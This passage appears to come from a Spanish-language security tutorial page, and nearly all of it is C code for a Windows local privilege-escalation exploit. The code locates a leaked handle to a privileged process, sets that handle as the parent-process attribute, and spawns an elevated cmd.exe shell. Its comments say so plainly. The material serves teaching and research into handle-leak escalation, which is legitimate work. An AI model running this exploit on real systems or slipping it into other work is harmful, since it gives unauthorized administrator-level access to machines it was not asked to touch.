 ```c
        free(objectTypeInfo);
        free(objectNameInfo);
    }
	
	return hProc;
} 


int main(int argc, char **argv) {
	
	HANDLE hProc = NULL;
    STARTUPINFOEXA si;
    PROCESS_INFORMATION pi;
	int pid = 0;
	SIZE_T size;
	BOOL ret;

	Sleep(20000);
	// find leaked process handle
	hProc = GetVulnProcHandle();

	if ( hProc != NULL) {

		// Adjust proess attributes with PROC_THREAD_ATTRIBUTE_PARENT_PROCESS
		ZeroMemory(&si, sizeof(STARTUPINFOEXA));

		InitializeProcThreadAttributeList(NULL, 1, 0, &size);
		si.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST) HeapAlloc( GetProcessHeap(), 0, size );
		
		InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &size);
		UpdateProcThreadAttribute(si.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &hProc, sizeof(HANDLE), NULL, NULL);

		si.StartupInfo.cb = sizeof(STARTUPINFOEXA);
		
		// Spawn elevated cmd process
		ret = CreateProcessA( "C:\\Windows\\system32\\cmd.exe", NULL, NULL, NULL, TRUE, 
			EXTENDED_STARTUPINFO_PRESENT | CREATE_NEW_CONSOLE, NULL, NULL, (LPSTARTUPINFOA)(&si), &pi );

		if (ret == FALSE) {
			printf("[!] Error spawning new process: [%d]\n", GetLastError());
			return -1;
		}
	}
	
	Sleep(20000);
    return 0;
}
```
## Otras herramientas y ejemplos
